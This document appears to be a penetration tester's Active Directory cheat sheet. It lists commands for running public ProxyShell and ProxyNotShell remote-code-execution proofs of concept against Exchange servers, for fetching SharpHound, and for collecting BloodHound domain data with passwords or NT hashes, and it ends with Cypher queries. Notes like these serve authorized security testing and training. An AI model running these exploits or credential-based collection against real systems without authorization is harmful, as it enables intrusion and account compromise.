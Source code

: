 **Exchange**
- Indicated by ports 110, 143, 587, 993, 995
- Can enumerate machine information with `ntlmrecon --input https://{exchange_endpoint}`
- Can run `proxyshell_rce.py -u https://{exchange_endpoint} -e administrator@{domain}` from an unauthed perspective
  - PoC: [https://github.com/dmaasland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc)
- Can run `poc_aug3.py {IP} {username} {password} {command}`
  - PoC: [https://github.com/testanull/ProxyNotShell-PoC](https://github.com/testanull/ProxyNotShell-PoC)

## Enumerating the Domain with BloodHound/SharpHound

**Capturing the system data with SharpHound:**
- [SharpHound](https://github.com/SpecterOps/SharpHound/releases/latest)
  - If we can't update kali's bloodhound, Sharphound version 1.1.1 works with kali's default 4.3.1 bloodhound (legacy)
- Install on Windows system and unzip
  - `Invoke-WebRequest {url} -Outfile {outfile}; Expand-Archive {outfile}`
  - Use with `Import-Module .\SharpHound.ps1`
    - `Invoke-BloodHound -CollectionMethod All -OutputDirectory {dir} -OutputPrefix {filename_prefix}`
- Look at misc notes for getting the file off of the system
- Can also be run from kali
  - It's always better to run from a shell on the machine if possible, but from Kali works if we only have LDAP to work off of
  - Newest version for BloodHound CE:
    - `apt install bloodhound` - installs latest BloodHound CE GUI
      - run GUI with `bloodhound`
    - `pipx install bloodhound-ce` - installs latest `bloodhound-ce-python`
      - run collection with `bloodhound-ce-python -u {user} -p {password} (--hashes :{NT_HASH}) -d {domain} -c all --zip -op {out_prefix} -ns {dc_ns_ip}`
  - Legacy version (for kali default):
    - `nxc ldap {dc} -u {username} -p {password} --bloodhound --collection All --dns-server {dns_server_ip}`
    - `pipx install bloodhound`
        - run collection with `bloodhound-python -u {user} -p {password} (--hashes :{NT_HASH}) -d {domain} -c all --zip -op {out_prefix}`

**Ensuring all data collection**
- If we have a domain forest situation, we'll need to point bloodhound at the correct domain for information collection
- This can be done with the `-d` and `-dc` flags, while specifying the domain of the user we own
  - `bloodhound-ce-python -u {user}@{source_domain} -p {password} (--hashes :{NT_HASH}) -d {target_domain} -dc {target_domain_server_name} -c all --zip -op {out_prefix}`
- Will authenticate via LDAP to query the information, so it requires a successful external bind

**Analyzing the data with BloodHound**
- Use neo4j on kali machine - `sudo neo4j start`
  - If not installed, just run `neo4j` and install the suggested option
  - Go to localhost:7474 in the browser, set a new password
- Now we can run `bloodhound`
  - Sign in with new password set
  - Upload the SharpHound zip folder using button on right
- This will show all data collected AS THE CURRENT USER
  - It will have no idea if other users have local admin access on other workstations, only current user
- Analysis
  - To perform analysis on newer versions of BloodHound CE, click the file browse button next to the Cypher query
- Queries:
  - All computers: `MATCH (m:Computer) RETURN m`
  - All users: `MATCH (m:User) RETURN m`
  - Active sessions: `MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p`